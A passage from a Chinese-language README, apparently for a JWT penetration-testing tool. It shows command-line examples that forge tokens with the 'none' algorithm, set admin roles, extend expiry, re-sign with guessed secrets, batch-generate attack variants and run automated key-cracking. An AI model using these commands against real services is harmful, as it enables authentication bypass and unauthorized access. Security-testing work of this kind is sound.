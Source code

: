 交互式修改器功能：
- 📋 Header字段修改/添加/删除
- 📦 Payload字段修改/添加/删除  
- ⚡ 快速权限提升(一键设置admin)
- ⏰ 时间操纵(延长过期时间等)
- 💉 注入载荷测试(SQL注入、XSS等)
- 🔐 灵活的签名选项

### 5. 命令行快速修改
```bash
# 设置算法为none(无签名)
python3 encoder.py "token" --algorithm none

# 设置admin权限
python3 encoder.py "token" --set-payload "admin=true,role=admin" --algorithm none

# 使用自定义密钥签名
python3 encoder.py "token" --set-payload "user=admin" --secret "mysecret" --algorithm HS256

# 修改Header和Payload
python3 encoder.py "token" --set-header "alg=none,typ=JWT" --set-payload "admin=true,exp=9999999999"
```

### 6. 批量攻击
```bash
# 生成所有可能的攻击变种
python3 encoder.py "token" --batch-modify --output attack_results.txt

# 保存token列表
python3 encoder.py "token" --batch-modify --save-tokens --output attacks

# 处理多个token
python3 encoder.py -f tokens.txt --batch-modify --output batch_results/
```

### 7. 自动化测试套件
```bash
# 运行完整自动化测试
python3 encoder.py "token" --auto-test --output test_results/

# 静默模式运行
python3 encoder.py "token" --auto-test --quiet --output results/
```

自动化测试包含：
1. 📊 基础安全分析
2. 🔓 密钥破解尝试  
3. ⚔️ 攻击载荷生成
4. 🎯 批量攻击执行
5. 📁 结果文件保存
6. 📄 专业测试报告
